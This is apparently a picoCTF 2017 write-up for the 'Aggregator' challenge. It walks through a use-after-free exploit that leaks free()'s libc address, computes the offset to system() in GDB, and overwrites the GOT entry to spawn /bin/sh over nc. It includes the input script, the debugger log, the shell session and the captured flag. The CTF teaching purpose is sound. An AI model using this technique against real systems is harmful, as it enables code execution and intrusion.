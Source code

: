 # Aggregator

```
I wrote a program to help me synthesize my log files. You can edit the log files to add annotations that will print out aggregated information. Because the original program that outputs the logs was a bit faulty, I also included the ability to clear a single day of logs.
Find my aggregator running on shell2017.picoctf.com:13902. aggregator.c aggregator
HINTS
Does it look like there is a stack vulnerability?
```

We noticed that there was a use-after-free error, so we played around with inputs in GDB until we got a writable data pointer that also pointed to the location of an active table entry. Then we wrote over the pointer to the table entry's data with the pointer to the GOT address of free() in order to leak the location of free to the console. We used the following python script

```python
python
output = "3-1-1 999\n"
output += "2-1-1 420\n"
for i in range(0, 40):
  output += "4-1-1 " + str(i) + "\n"
output += "~2-1-1\n"
output += "~3-1-1\n"
output += "~4-1-1\n"
output += "5-1-1\n"
output += "1-1-1 6299376\n"
output += "1-1-1 72340172838076673\n"
output += "1-1-1 18446744073709551615\n"
output += "1-1-1 1\n"
output += "1-1-1 0\n"
output += "am 4-1\n"
print output
```

Next we had to find the offset between the actual address of free() and system() at runtime in GDB. The values at the given GOT addresses at runtime. We did this by attaching GDB to the running process after leaking the glibc address of free. It was important to do this on a system running the same version of libc as the shell server, so we just carried out this step on the shell server.

```
$ (python aggregator.py; cat) | ./aggregator
140283963758080
^Z[2] + Stopped                    (python aggregator.py; cat) | ./aggregator
$ gdb -q -p `pidof aggregator`
Excess command line arguments ignored. (21905)
22110: No such file or directory.
Attaching to process 23535

Program received signal SIGTSTP, Stopped (user).
Reading symbols from /home/rjm27trekkie/aggregator...(no debugging symbols found)...done.
Reading symbols from /lib/x86_64-linux-gnu/libc.so.6...Reading symbols from /usr/lib/debug//lib/x86_64-linux-gnu/libc-2.19.so...done.
done.
Loaded symbols for /lib/x86_64-linux-gnu/libc.so.6
Reading symbols from /lib64/ld-linux-x86-64.so.2...Reading symbols from /usr/lib/debug//lib/x86_64-linux-gnu/ld-2.19.so...done.
done.
Loaded symbols for /lib64/ld-linux-x86-64.so.2
0x00007f9667d9cba0 in __read_nocancel () at ../sysdeps/unix/syscall-template.S:81
81      ../sysdeps/unix/syscall-template.S: No such file or directory.
(gdb) p system
$1 = {<text variable, no debug info>} 0x7f9667d02490 <__libc_system>
(gdb) q
A debugging session is active.

        Inferior 1 [process 23535] will be detached.

Quit anyway? (y or n) y
Detaching from program: /home/rjm27trekkie/aggregator, process 23535
$ python -c "print '{0:02x}'.format(0x7f9667d02490 - 140283963758080)"
-3b170
$
```

The inputs after this point will change every time. They will need to take the following format.

```
aM 4-1 THIS PRINTS THE ADDRESS OF FREE
4-1-1 ADDRESS OF SYSTEM (offset: -0x3b170)
4-1-1 ADDRESS OF SYSTEM
a+ 1-1 ; /bin/sh
```

We pipe the output of the script into the program. Then we add the offset to the address for free, writing system() to the GOT entry. Finally, a line containing "; /bin/sh" is added so that program would call system("/bin/sh") when it attempts to call free(). This gives a shell. Then we just we cat the flag. 

```
$ (python aggregator.py; cat) | nc shell2017.picoctf.com 13902
140627465098752
4-1-1 140627464856720
4-1-1 140627464856720
a+ 1-1 ; /bin/sh
sh: 1: a+: not found
ls
aggregator
flag.txt
xinetd_wrapper.sh
cat flag.txt
5eaacf941a181a45e0b17327842a72f5
```
